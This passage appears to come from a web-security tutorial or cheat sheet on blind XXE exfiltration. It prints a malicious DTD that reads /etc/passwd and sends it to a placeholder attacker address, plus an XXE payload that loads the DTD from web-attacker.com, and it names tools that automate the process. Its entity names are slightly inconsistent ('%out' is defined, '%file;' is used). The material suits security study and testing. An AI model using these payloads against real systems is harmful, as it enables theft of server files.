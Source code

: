 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % out SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY referenceme SYSTEM 'http://OUR_IP:OUR_PORT/?content=%file;'>">
```
> Note: Alternatively, we can use Burp Collaborator, [CanaryTokens](https://canarytokens.org/generate#), or [interactsh](https://github.com/projectdiscovery/interactsh) to replace `OUR_IP:OUR_PORT`.

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://web-attacker.com/malicious.dtd">
  %remote;
  %oob;
]>
<stockCheck><productId>&referenceme;</productId></stockCheck> <!-- Reference the "referenceme" from ENTITY in our malicious.dtd -->
```

Alternatively, we can use [XXEInjection](https://github.com/enjoiz/XXEinjector) to automate this process.